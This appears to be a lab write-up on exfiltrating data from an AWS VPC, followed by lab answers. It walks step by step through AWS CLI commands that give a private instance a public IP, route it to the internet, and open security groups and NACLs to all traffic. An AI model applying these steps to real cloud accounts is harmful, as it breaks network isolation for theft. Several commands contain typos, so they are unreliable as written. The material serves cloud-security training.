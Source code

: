 # AWS VPC - Dta Exfiltration

## Assing a public IP address on the Target Instance
1. To allocate a new public IP address to the EC2 Instance in this account.

```bash
aws ec2 allocate-address
```

2. To find the ENI for the Target machine.

```bash
aws ec2 describe-instances > instances.json
grep eni instances.json
```

![image](https://github.com/user-attachments/assets/6ab0c564-c885-4221-8c79-e6f7caf46343)

3. Assign the public IP to the ENI of the target machine.

```bash
aws ec2 assocaite-address --network-interface-id $ENI (from step 1) --allocation-id $EIPALLOC (from step 2)
```

## Change Route Table allowing a private subnet direct Internet access
- After assigning public IP address to the EC2 instance, we need to establish a route form the Internet to the subnet target.
1. Get the IGW ID

```bash
aws ec2 describe-internet-gateways
```

2. Get the Route Table ID

```bash
aws ec2 desccribe-route-tables > route-tables.json
```

3. Add the route to the Route table

```bash
aws ec2 create-route --route-table-id $ROUTE_TABLE --destination-cidr-block 0.0.0.0/0 --gateway-id $IGW
```

4. Rerun the command to confirm the new route is added.

```bash
aws ec2 describe-route-tables
```

## Modify the security group to allow access to the world
- A new route has been established but the traffic is still blocked by the Security Group. We need to modify the Security Group.

```bash
aws ec2 describe-security-groups > security-gorups.json
```

- Look for the desired Security Group and create a security group to allow all traffic.

```bash
aws ec2 authorize-security-group-ingress --protocol all -port 0-65535 --cidr 0.0.0.0/0 --group-id $SG_ID
```

## Fix the NACLs to allow access
- Now we have to modify the NACLs to allow access to the resources.

```bash
aws ec2 describe-network-acls ? nacls.json
```
![image](https://github.com/user-attachments/assets/8d937e40-daf3-4d24-8e1c-ed2a5932fdaa)

- From the above output, we see that only IP addresses in CIDR 10.100.0.0/21 can communicate with this VPC. As an attacker, we want to to modify the NACLs to allow VPC to communicate with the Internet by allowing ingress and egress traffic through 0.0.0.0/0

```bash
aws ec2 create-network-acl-entry --cidr-block 0.0.0.0/0 --ingress --protocol -1 --rule-action allow --rule-number 1 --network-acl-id $ACL_ID
```
- Because NACLs is stateless, we have to define egress traffic for the VPC.

```bash
aws ec2 create-network-acl-entry --cidr-block 0.0.0.0/0 --egress --protocol -1 --rule-action allo --rule-number 1 --network-acl-id $ACL_ID
```

- Run the following command to check the new NACL entry:

```bash
aws ec2 describe-network-acls --filters Name=network-acl-id,Values=$ACL_ID 
```


# ANSWER THE QUESTION
- **What was the value of "PublicIpv4Pool" in the aws ec2 allocate-address response?**

![image](https://github.com/user-attachments/assets/e5e23817-a53e-4a79-88da-4e249bad3ad9)

-> `amazon`

- **What was the Name of the IGW?**

![image](https://github.com/user-attachments/assets/5f99dea2-599c-4245-83b7-9b7fc8141505)

-> `VPC-Capstone-IGW`

- **How many Subnets are associated with the "VPC-Capstone Private Subnet NACL"?**

-> `2`
